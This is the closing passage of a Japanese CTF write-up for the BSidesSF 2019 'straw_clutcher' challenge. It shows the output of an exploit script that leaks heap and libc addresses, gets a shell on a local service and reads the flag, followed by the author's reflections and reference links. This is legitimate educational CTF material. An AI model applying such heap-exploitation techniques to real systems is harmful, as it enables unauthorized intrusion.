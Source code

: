 ```
$ python solve.py 
[+] Socket: Successfully connected to 127.0.0.1:4321
[ptrlib] heap = 0x555cedaa8250
[ptrlib] libc base = 0x7f96cb952000
[ptrlib]$ 200 Data transferred!
200 Entry created
200 Entry created
200 Entry created
200 Filename "E.BIN" removed
200 Filename "F.BIN" removed
200 Filename renamed
200 Filename "999.999" removed
200 Entry created
200 Entry created
200 Entry created
200 Entry created

[ptrlib]$ ls /home/ctf
flag.txt
straw-clutcher
[ptrlib]$ cat /home/ctf/flag.txt
CTF{hoisting_the_flag}
[ptrlib]$
```

# 感想
ソースコードありで1日かけても自力では解けなかった。
今までで一番きつかったです。
でもこのCTFあと1問500ptsが残ってるんだよなー、さすがBSidesSFは難しい。

# 参考文献
[1] [https://github.com/merrychap/ctf-writeups/tree/master/2019/BSidesSF%202019%20CTF/straw_clutcher](https://github.com/merrychap/ctf-writeups/tree/master/2019/BSidesSF%202019%20CTF/straw_clutcher)

[2] [https://hama.hatenadiary.jp/entry/2018/12/08/142437](https://hama.hatenadiary.jp/entry/2018/12/08/142437)
